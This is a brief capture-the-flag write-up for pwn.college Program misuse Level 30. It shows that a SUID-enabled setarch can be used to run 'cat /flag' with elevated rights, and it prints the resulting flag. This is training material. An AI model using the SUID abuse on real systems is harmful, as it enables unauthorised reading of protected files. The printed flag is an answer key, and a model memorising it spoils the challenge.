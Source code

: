 # pwn.college - Fundamentals - Program misuse - Level 30
```
$ /challenge/babysuid_level30
```
The SUID bit on `/usr/bin/setarch` is set. 
```
$ setarch x86_64 cat /flag
```
`pwn.college{A5OM82CjWKbzywYiYSTX57U0hFX.0lM3EDLyYjNyEzW}`